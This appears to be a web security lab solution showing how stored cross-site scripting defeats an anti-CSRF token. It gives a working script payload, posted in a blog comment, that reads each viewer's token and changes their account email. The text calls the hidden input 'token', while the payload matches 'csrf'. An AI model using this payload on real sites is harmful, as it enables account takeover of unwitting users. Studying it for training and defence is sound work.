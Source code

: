 - Log in using the credentials provided. 
- On your user account page, notice the function for updating your email address.
- If you view the source for the page, you'll see the following information:
- You need to issue a POST request to /my-account/change-email, with a parameter called email.
- There's an anti-CSRF token in a hidden input called token.
- This means your exploit will need to load the user account page, extract the CSRF token, and then use the token to change the victim's email address.
- Submit the following payload in a blog comment:

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

This will make anyone who views the comment issue a POST request to change their email address to test@test.com.
